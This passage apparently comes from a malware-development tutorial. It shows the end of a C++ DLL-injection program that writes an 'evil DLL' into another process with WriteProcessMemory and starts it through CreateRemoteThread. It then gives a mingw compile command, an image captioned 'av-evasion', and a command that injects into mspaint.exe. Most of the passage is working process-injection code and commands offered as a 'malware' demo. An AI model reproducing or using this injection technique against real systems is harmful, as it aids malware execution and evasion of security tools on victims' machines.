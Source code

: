 ```cpp

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, 
  NULL);
  CloseHandle(ph);

  return 0;
}
```

### "malware" demo

Ok, let's go to demonstration our injection.     

Compile it:      

```bash
x86_64-w64-mingw32-g++ -O2 hack2.c -o hack2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lwtsapi32
```

![av-evasion](./images/103/2023-07-08_20-09.png){width="80%"}      

And run for find and inject to `mspaint.exe`:       

```powershell
.\hack2.exe mspaint.exe
```
